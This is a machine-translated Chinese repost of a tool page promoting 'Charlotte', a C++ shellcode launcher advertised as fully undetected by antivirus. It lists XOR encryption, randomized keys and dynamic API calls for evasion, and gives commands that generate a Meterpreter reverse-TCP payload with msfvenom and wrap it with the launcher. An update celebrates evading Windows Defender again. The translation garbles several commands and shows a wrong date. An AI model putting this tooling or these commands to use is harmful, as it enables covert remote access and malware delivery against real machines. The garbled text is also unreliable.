



# 夏洛特:C++完全未检测外壳代码启动器

> 原文：<https://kalilinuxtutorials.com/charlotte/>

**Charlotte** 是一个 c++完全未被检测到的外壳代码启动器。

**描述**

*   2021 年 5 月 13 日:
    *   c++外壳代码启动器，2021 年 5 月 13 日完全未被检测到。
    *   win32 api 函数的动态调用
    *   外壳代码和函数名的异或加密
    *   每次运行的随机 XOR 密钥和变量
    *   在 Kali Linux 上，只需“apt-get install mingw-w64*”就可以了！
*   2021 年 5 月 17 日:
    *   随机字符串长度和 XOR 密钥长度

**Antiscan.me**

**用途**

git 克隆存储库，用命名 beacon.bin 生成 shellcode 文件，并运行 charlotte.py

**举例:**

**git 克隆[https://github.com/9emin1/charlotte.git](https://github.com/9emin1/charlotte.git)&&apt-get 安装 mingw-w64*
cd 夏洛特
MSF venom-p windows/x64/meter preter _ reverse _ TCP LHOST = $ YOUR _ IP LPORT = $ YOUR _ PORT-f raw>beacon . bin
python Charlotte . py
盈利**

经 msfvenom -p 测试(如。gif POC 如下)和钴罢工原始格式有效载荷

**更新 1.1 版**

2011 年 5 月 17 日:

显然微软的 Windows Defender 能够检测到。DLL 二进制文件，他们是如何标记它的？通过查找几个 16 字节大小的 XOR 密钥，将其更改为 POC 中显示的 9。下面的 gif 显示它现在再次未被发现，欢呼。

[**Download**](https://github.com/9emin1/charlotte)